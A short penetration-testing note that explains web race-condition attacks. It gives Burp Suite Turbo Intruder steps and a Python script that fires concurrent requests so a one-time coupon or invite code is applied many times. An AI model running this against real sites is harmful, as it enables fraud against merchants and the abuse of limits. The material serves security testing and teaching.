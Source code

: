```yaml
---
title: Web Race Condition Attack
description: Race condition is a vulnerability of web applications by concurrent requests to circumvent limiting the state.
tags:
    - Web
refs:
date: 2023-08-14
draft: false
---
```


## Investigation

If target website has the functionality that logged-in user can apply the 10% off code for buying products, the code must be applied only one time most of the time. However, this rule might be bypassed by exploiting race condition vulnerability with concurrent requests.

<br />

## Race Condition Attack using Turbo Intruder in Burp Suite

We can easily achieve race condition attack by using Turbo Intruder.

1. In **Burp Suite**, right-click on specific request.
2. Select **Extensions → Turbo Intruder**. If it does not exist, you need to install it in the BApp Store of Burp Suite.
3. In Turbo Intruder window, set specific value to the  **`concurrentConnection`** param of the **`RequestEngine`** method. This value is up to target website logic. For example, if we need to apply coupon code 20 times in EC site, set `20`.
    
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(
            endpoint=target.endpoint,
            concurrentConnections=20, # change this value for race condition.
            requestsPerConnection=1,
            pipeline=False)
    
        # For loop requests
        i = 0
        while i < 100: # this value is arbitrary but not very important for this situation.
            engine.queue(target.req, None)
            i += 1
    
    def handleResponse(req, interesting):
        if interesting:
            table.add(req)
    ```
    
4. Now click **Attack** button. Since the request N times at the same time, we may be able to bypass the limit to be applied some code e.g. coupon, invite code, etc.
